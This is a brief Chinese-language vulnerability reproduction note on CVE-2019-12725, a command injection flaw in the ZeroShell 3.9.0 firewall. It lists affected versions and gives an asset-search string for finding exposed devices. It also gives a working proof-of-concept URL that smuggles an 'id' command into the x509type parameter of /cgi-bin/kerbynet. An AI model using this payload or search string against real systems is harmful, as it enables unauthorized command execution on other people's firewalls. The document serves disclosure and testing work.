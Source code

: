 # ZeroShell 3.9.0 远程命令执行漏洞 CVE-2019-12725

## 漏洞描述

ZeroShell 3.9.0 存在命令执行漏洞，/cgi-bin/kerbynet 页面，x509type 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

<a-checkbox checked>ZeroShell < 3.9.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Zeroshell-防火墙"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zm-2.png)



验证的POC为



```plain
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0Aid%0A%27
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zm-1.png)



若有收获，就点个赞吧